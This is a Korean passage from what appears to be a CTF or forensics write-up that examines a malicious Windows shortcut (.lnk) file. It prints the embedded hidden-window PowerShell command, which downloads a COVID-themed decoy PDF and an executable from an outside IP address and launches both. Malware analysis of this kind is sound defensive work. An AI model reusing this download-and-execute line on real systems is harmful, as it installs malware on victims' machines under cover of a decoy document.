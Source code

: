 자세한 내용을 알기 위해 HxD로 내부 내용을 확인했… 는데, HxD는 lnk 자체의 데이터를 보여주는 게 아니라, lnk가 가리키는 파일의 데이터를 보여주더라. 

010 Editor를 사용했다.

![image.png](/assets/img/posts/2025-02-02-FIESTA2024-cert1/image%2013.png){: width="80%" height="80%"}

내부에 커맨드가 있는 것을 확인할 수 있다.

<br>

```powershell
/c powershell -windowstyle hidden -command "Set-Location -Path 'C:\Users\Public'; Invoke-WebRequest -Uri 'http://172.22.224.1:7777/123.pdf' -OutFile 'C:\Users\Public\국내코로나19재감염사례현황.pdf'; Invoke-WebRequest -Uri 'http://172.22.224.1:7777/1.exe' -OutFile 'C:\Users\Public\1.exe'; Start-Process -FilePath 'C:\Users\Public\국내코로나19재감염사례현황.pdf'; Start-Process -FilePath 'C:\Users\Public\1.exe'"
```

pdf 파일과 `1.exe`를 다운받아 실행시키는 커맨드다.

pdf 파일 자체에 문제가 있을 수도 있지만, 이 경우에는 `1.exe`가 드로핑을 위한 DB 정도로 pdf  파일을 사용할 수도 있겠다는 생각이 들었다.
